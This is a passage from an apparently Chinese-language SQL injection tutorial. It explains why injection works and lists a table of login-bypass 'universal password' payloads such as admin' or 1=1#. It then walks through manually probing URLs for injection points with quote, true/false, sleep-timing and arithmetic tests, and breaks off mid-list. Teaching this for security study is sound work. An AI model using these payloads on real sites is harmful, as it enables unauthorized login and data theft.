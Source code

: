 <img src="SQL注入/media/1634051626632377000146.png" alt="SQL注入/media/1634051626632377000146.png" style="zoom:50%;" align="left"/>
根据sql注入原理使用万能密码

```sql
$user = admin' or 1=1#
```
<img src="SQL注入/media/1634051626639431000283.png" alt="SQL注入/media/1634051626639431000283.png" style="zoom:50%;" align="left"/>
脚本语言无法理解SQL语句，两者对查询语句处理不一致导致SQL注入，篡改了SQL语句原本逻辑，如上图。

## 常用万能密码

|"or"a"="a|"or 1=1--|# -- --+|admin'--|
|:----|:----|:----|:----|
|')or('a'='a|'or"='|%23|admin' or 4=4--|
|")or("a"="a|'or 1=1%00|admin' or 1=1/*|admin' or '1'='1'--|
|'or 1=1--|'or 1=1/*|'or'='or'|admin' or 2=2#|

# SQL手工注入流程

## **寻找注入点**

判断某个链接是否存在SQL注入，可以通过对其传入的可控参数进行简单的构造，通过服务端返回的内容来判断有无注入。首先尝试在url中添加“'”观察是否会报错；随后通过添加 and 1=1或者and1=2进一步确认，如果“'”触发报错，则说明大概率为注入点，and 1=1返回原页面，and1=2返回空白或者报错，则基本证明此处为注入点。

1. **闭合引号或括号判断**

  [www.xxx.com/](http://www.xxx.com/)xxx.php?id=1'

  [www.xxx.com/](http://www.xxx.com/)xxx.php?id=1"

  [www.xxx.com/](http://www.xxx.com/)xxx.php?id=1')

  [www.xxx.com/](http://www.xxx.com/)xxx.php?id=1")

  如果出现错误提示，则该网站可能就存在注入漏洞

2. **通过构造“恒真”和“恒假”来判断**

  [www.xxx.com/xxx.php?id=1](http://www.xxx.com/xxx.php?id=1)' and 1=1  恒真，页面显示正常

  [www.xxx.com/](http://www.xxx.com/)xxx.php?id=1' and 1=2  恒假，如果报错或者页面内容消失可以初步判断为存在注入

  [www.xxx.com/xxx.php?id=1](http://www.xxx.com/xxx.php?id=1)  页面响应时间正常

  [www.xxx.com/xxx.php?id=1](http://www.xxx.com/xxx.php?id=1)' and sleep(5)  如果页面响应时间有延迟可以判断为存在注入

3. **通过加减乘除判断注入点**

[www.xxx.com/xxx.php?id=2](http://www.xxx.com/xxx.php?id=2)   页面显示正常

如果以下3个请求显示的页面跟 id=2 一样，则可以判断为存在注入

[www.xxx.com/xxx.php?id=4-2](http://www.xxx.com/xxx.php?id=4-2)  
